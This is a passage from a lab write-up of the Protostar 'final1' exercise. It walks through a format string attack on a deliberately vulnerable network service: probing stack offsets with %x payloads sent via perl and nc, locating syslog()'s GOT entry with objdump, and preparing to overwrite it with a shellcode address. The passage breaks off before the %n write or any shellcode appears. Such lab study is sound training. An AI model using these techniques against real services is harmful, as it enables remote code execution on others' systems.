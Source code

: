 ```
root@protostar:/home/user# tail -f /var/log/syslog | grep final1
```

This helps to see what is being passed, and align the format string later on.  It also notifies you when you crash the program, and dump the core. 

First, I needed to find the amount of words in the stack that I would need to skip over to get to my format string.  I found through some experimentation that it would start at 15 if I added a 1 character buffer (the "X"): 

```
user@protostar:/opt/protostar/bin$ nc localhost 2994
[final1] $ username XAAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
[final1] $ login B
login failed
```

In the syslog, this showed: 

```
Feb  4 22:47:31 protostar final1: Login from 127.0.0.1:36764 as [JAAAA8049ee4.804a2a0.804a220.bffffc46.b7fd7ff4.bffffa98.69676f4c.7266206e.31206d6f.302e3732.312e302e.3736333a.61203436.4a5b2073.41414141] with password [B]
```

Since my goal was to overwrite "syslog()" with a memory address pointing to my shellcode, I figured I probably needed to know the address of "syslog()" in the GOT. 

```
user@protostar:/opt/protostar/bin$ objdump -R final1 | grep syslog
0804a11c R_386_JUMP_SLOT   syslog
```

My next step was to start using Direct Parameter Access, so my exploit wouldn't be super long, and would be easier to deal with.  I also broke up the segments to make them easier for me to visualize. 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "username "."X"."AAAA"."BBBB"."CCCC"."DDDD"."%15\$x"."\nlogin B\n"' | nc localhost 2994
[final1] $ [final1] $ login failed
```

In the syslog, this showed: 

```
Feb  4 23:18:13 protostar final1: Login from 127.0.0.1:36768 as [XAAAABBBBCCCCDDDD41414141] with password [B]
```

So there, I was still getting the "41414141" as the word being displayed.  When switched to "%n" instead of "%x", that'll be the address written to.  The next thing to do, would be make all 4 words show up properly. 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "username "."X"."AAAA"."BBBB"."CCCC"."DDDD"."%15\$x"."%16\$x"."%17\$x"."%18\$x"."\nlogin B\n"' | nc localhost 2994
[final1] $ [final1] $ login failed
```
